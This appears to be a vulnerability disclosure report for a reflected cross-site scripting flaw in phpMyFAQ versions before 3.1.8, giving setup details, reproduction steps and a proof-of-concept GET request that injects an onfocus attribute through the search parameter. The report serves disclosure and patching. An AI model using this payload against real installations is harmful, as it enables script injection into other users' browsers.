

# Vulnerability Type

Cross-site Scripting

# Description

Cross-site Scripting (XSS) - Reflected in GitHub repository thorsten/phpmyfaq prior to 3.1.8.

# PoC Report

 ## Environment Setup

 - Software Link: https://github.com/thorsten/phpmyfaq/
 - Version: 3.1.7
 - Tested on: Windows 10

 ## Exploit Description

The source is located in `index.php`, and the vulnerable parameter is `search`, which must satisfy both data flow and syntax constraints to trigger the XSS vulnerability.

 ## Steps to Reproduce

  1. Log in phpmyfaq.
  2. Send the request.
  3. Observe the result: 



 ## Proof Of Concept
````
GET http://phpmyfaq1/index.php?action=main&search=%22%20onfocus%3D%22alert%281%29

Additional Conditions:
- Ensure that no security mechanisms (like a web application firewall) are blocking the specific request pattern.
- The application must be running a phpMyFAQ version prior to 3.1.8.
````

